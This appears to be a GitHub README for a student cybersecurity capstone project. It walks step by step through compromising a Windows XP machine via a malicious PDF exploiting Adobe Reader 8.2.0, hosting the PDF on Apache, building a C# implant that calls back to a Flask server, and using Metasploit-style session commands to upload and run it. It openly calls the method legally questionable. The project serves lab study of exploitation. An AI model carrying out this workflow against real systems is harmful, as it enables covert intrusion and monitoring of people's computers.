 # CyberEffects_IPDIMG
CyberEffects Capstone - Intellectual Property Defense via Illegal Methods Group (IPDIMG)

This is a simulation of a legally questionable way of determining whether intellectual property was not properly deleted after employment termination. Our capstone utilizes a vulnerability in Adobe Reader ver. 8.2.0 where payloads can be embedded into a .pdf file, and executed once opened in the vulnerable PDF reader. With this initial

## Vulnerable Target

Windows XP OS with Adobe Reader ver. 8.2.0 installed

Link to the vulnerable Adobe Reader ver. 8.2.0 [here](http://www.oldversion.com/windows/acrobat-reader-8-2-0)

Free Windows XP .iso file [here](https://eprebys.faculty.ucdavis.edu/2020/04/08/installing-windows-xp-in-virtualbox-or-other-vm/#:~:text=The%20product%20key%20is%20now,Mac%20can%20be%20found%20here.)

## Setting up Apache2 server to host malicious PDF

1. Install apache2

2. Copy the index.html to the '/var/www/html' directory

3. Run 'sudo systemctl start apache2' to start the server

4. File can be downloaded at http://***(host network IP)***:80

          Use 'ip addr show' and locate the host network IP

## Setting up vsftpd for the Apache2 server file location

Follow the following videos in order

1. Set up vsftpd [here](https://youtu.be/1WVBC0KBOeE?list=PLeiTQKKRIIRqCkCFe-xL8ohp5Euh8Jxqd)

2. Securing FTP server [here](https://youtu.be/N7hwrPiji3c?list=PLeiTQKKRIIRqCkCFe-xL8ohp5Euh8Jxqd)

3. Upload to Apache2 server using FTP [here](https://youtu.be/Np_OUB4gvc4?list=PLeiTQKKRIIRqCkCFe-xL8ohp5Euh8Jxqd)

**Note** - This has been known to restrict usable ports on the device. Make sure to allow ports 80 and 8080 for the Apache2 PDF download site and Flask server. SSL and firewall has also been known to mess with the implant's ability to reconnect with the FTP server.

          sudo ufw allow 80/tcp
          
          sudo ufw allow 8080/tcp
          
          sudo service apache2 restart

## Setting up and running any of the shell scripts

          chmod +x <script name>

          ./<script name>

## General Steps

1. Begin by generating the malicious PDF and generate encrypted archive file by generating the exe of 'generate_malicious_pdf.sh'.
  
          chmod +x generate_malicious_pdf.sh
  
          ./generate_malicious_pdf.sh
          
2. Set IP for Flask server to the inet IP

          'ifconfig'
          
          Find IP address right after inet
          
          Add inet IP to the app.run(debug=True, host='0.0.0.0', port=8080)

2. Start flask server that is responsible for communicating with implants
          
          Make note of the IP and port that the flask server is running on so that the implants know where to communicate back to 
          
          Make changes to the 'srvip' variable in implant.cs with the srvip that the flask server uses

3. Build the implant.cs into an executable
          
          Use .Net 4.0 Windows device to build the executable
          
          csc /target:winexe implant.cs

4. Start listener by running the listener.sh script
  
          chmod +x listener.sh
          
          ./listener.sh

5. Download and open the malicious PDF on the target machine

6. Upload the upload_exe.rc file to the target machine via session
  
          sessions -i 1
  
          upload upload_exe.rc
  
7. Run the resource script in order to upload and run the executable
  
          resource upload_exe.rc
